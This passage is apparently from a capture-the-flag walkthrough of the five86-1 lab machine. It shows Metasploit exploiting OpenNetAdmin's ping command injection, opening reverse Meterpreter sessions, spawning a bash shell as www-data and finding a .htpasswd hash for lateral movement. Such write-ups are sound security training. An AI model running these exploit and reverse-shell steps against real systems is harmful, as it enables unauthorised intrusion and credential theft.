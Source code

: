 ~~~
   ----   ---------------  --------  -----------
   LHOST  172.16.222.128   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf5 exploit(unix/webapp/opennetadmin_ping_cmd_injection) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf5 exploit(unix/webapp/opennetadmin_ping_cmd_injection) > 
[*] Started reverse TCP handler on 172.16.222.128:4444 
[*] Exploiting...
[*] Sending stage (980808 bytes) to 172.16.222.151
[*] Meterpreter session 1 opened (172.16.222.128:4444 -> 172.16.222.151:44184) at 2020-10-01 16:09:16 +0200
[*] Sending stage (980808 bytes) to 172.16.222.151
[*] Meterpreter session 2 opened (172.16.222.128:4444 -> 172.16.222.151:44186) at 2020-10-01 16:09:16 +0200
~~~

The exploit succeeded. Let's connect to the session:

~~~
msf5 exploit(unix/webapp/opennetadmin_ping_cmd_injection) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > shell
Process 1325 created.
Channel 1 created.

[*] Command Stager progress - 100.00% done (706/706 bytes)

python -c "import pty;pty.spawn('/bin/bash')"
www-data@five86-1:/opt/ona/www$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

# Lateral move

## www-data -> douglas

Enumerating the `/var/www` directory reveals that there is a `.htpasswd` file containing douglas hashed password.
